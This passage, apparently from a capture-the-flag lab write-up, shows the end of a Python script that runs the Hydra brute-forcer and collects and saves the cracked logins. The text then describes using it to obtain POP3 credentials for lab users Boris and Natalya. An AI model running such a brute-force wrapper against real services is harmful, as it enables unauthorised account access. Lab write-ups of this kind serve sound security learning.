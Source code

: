 ```
    credentials = [line for line in output.splitlines() if "login:" in line and "password:" in 
line] 
     
    if credentials: 
        print("\nCredentials found:") 
        for cred in credentials: 
            print(cred) 
         
        # Save credentials to a file with a randomized name 
        random_filename = f"credentials_{uuid.uuid4().hex}.txt" 
        with open(random_filename, "w") as file: 
            file.write("\n".join(credentials)) 
        print(f"\nCredentials saved to: {random_filename}") 
    else: 
        print("\nNo credentials found.") 
except subprocess.CalledProcessError as e: 
    print(f"An error occurred while executing Hydra: {e.stderr}") 
except FileNotFoundError: 
    print("Hydra is not installed or not found in your system's PATH.") 

```

After running the brute.py code on both Boris and Natalya(who was mentioned in the 
terminal.js source code we found) we found the following login credentials; 
 
We then got the following on Boris and so we ran the code again on Natalya and also 
found some login credentials which we would then use to access their pop3 ***“terminals”***

![credentials-from-hydra](/post-images/Golden-Eye/credz.png)
